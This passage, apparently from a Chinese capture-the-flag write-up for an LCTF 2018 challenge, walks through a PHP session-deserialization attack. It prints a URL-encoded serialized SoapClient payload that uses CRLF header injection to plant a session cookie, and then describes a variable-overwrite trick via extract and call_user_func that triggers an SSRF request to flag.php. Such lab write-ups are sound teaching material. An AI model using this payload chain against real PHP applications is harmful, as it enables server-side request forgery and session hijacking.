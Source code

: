 执行脚本得到

```perl
|O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A31%3A%22npfs%0D%0ACookie%3APHPSESSID%3D123456%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

![img](https://img2020.cnblogs.com/blog/1999159/202101/1999159-20210127145226934-461072952.jpg)

第二步：通过变量覆盖，调用SoapClient类，从而触发__call 方法

传值f=extract&name=SoapClient POST:b=call_user_func. 这样 call_user_func($b,$a)就变成call_user_func(‘call_user_func’,array(‘SoapClient’,’welcome_to_the_lctf2018’)) ，即调用 SoapClient 类不存在的 welcome_to_the_lctf2018 方法，从而触发 __call 方法发起 soap 请求进行 SSRF 。

![img](https://img2020.cnblogs.com/blog/1999159/202101/1999159-20210127145232521-1316135936.jpg)

第三步：将PHPSESSID改为我们在SoapClient类里设置的123456即可得到flag

![img](https://img2020.cnblogs.com/blog/1999159/202101/1999159-20210127145237615-1077611283.jpg)

总的流程如下，图来源于网络[PHP反序列化入门之session反序列化](https://mochazz.github.io/2019/01/29/PHP反序列化入门之session反序列化/#例题二)

![img](https://img2020.cnblogs.com/blog/1999159/202101/1999159-20210127110300481-865588244.png)
